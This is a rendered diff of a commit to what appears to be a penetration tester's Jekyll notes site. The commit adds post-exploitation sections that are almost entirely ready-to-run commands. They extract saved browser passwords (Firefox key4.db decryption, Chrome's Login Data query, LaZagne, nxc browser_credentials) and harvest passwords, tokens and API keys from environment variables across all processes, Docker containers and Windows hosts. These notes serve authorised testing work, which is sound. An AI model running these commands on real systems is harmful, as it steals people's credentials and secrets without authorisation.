

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from post_exploit/post_exploit_main.md, in a window 1280 px wide and 1400 px high, scrolled down 4069 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
post-exploit: add browser credential extraction and environment variable hunting
Browser credentials:
- Linux Firefox: logins.json + key4.db + firefox_decrypt.py
- Linux Chrome: Login Data SQLite query
- Windows: LaZagne browsers module, SharpChrome reference

Environment variables:
- Linux: env grep, /proc/<pid>/environ parsing for all processes
- Docker: container inspect for exposed env vars
- Windows: set + GetEnvironmentVariables for common credential patterns

````diff
--- a/post_exploit/post_exploit_main.md
+++ b/post_exploit/post_exploit_main.md
@@ -197,6 +197,52 @@
 Add-Content "C:\ProgramData\ssh\administrators_authorized_keys" "ssh-rsa AAAA...key... kali@kali"
 ```
 
+## Browser Credential Extraction
+
+```bash
+# Linux — Firefox (user-mode access)
+find ~/.mozilla/firefox -name "logins.json" -o -name "key4.db" 2>/dev/null
+# Decrypt: firefox_decrypt.py (git clone https://github.com/unode/firefox_decrypt)
+python3 firefox_decrypt.py ~/.mozilla/firefox/<profile>/
+
+# Linux — Chrome / Chromium
+ls ~/.config/google-chrome/Default/Login\ Data
+# Copy DB, decrypt with secretsdump or manually:
+sqlite3 ~/.config/google-chrome/Default/'Login Data' \
+  "SELECT origin_url,username_value,password_value FROM logins"
+# Passwords encrypted with OS keyring — use SharpChrome or similar on Windows
+
+# Windows — Chrome (requires user context or SYSTEM + user profile)
+# PT ONLY: LaZagne, SharpChrome, or:
+.\LaZagne.exe browsers
+.\LaZagne.exe all
+
+# Windows — credentials from all browsers via nxc
+nxc smb $IP -u user -p pass -M browser_credentials  # PT ONLY
+```
+
+---
+
+## Environment Variables — Credential Hunting
+
+```bash
+# Linux — current process environment
+env | grep -i "pass\|secret\|key\|token\|api\|auth"
+cat /proc/<pid>/environ | tr '\0' '\n' | grep -i "pass\|key\|token"
+
+# All processes environment (root access)
+for pid in /proc/[0-9]*; do cat "$pid/environ" 2>/dev/null | tr '\0' '\n'; done | grep -i "aws\|key\|secret\|pass\|token" | sort -u
+
+# Docker containers — env vars often have credentials
+docker inspect <container_id> | grep -i "env" -A 50
+
+# Windows
+set | findstr /i "pass secret key token api"
+[System.Environment]::GetEnvironmentVariables()
+```
+
+---
+
 ## Mimikatz — Credential Extraction (Windows)
 
 Run after gaining local admin or SYSTEM on a Windows host.
````
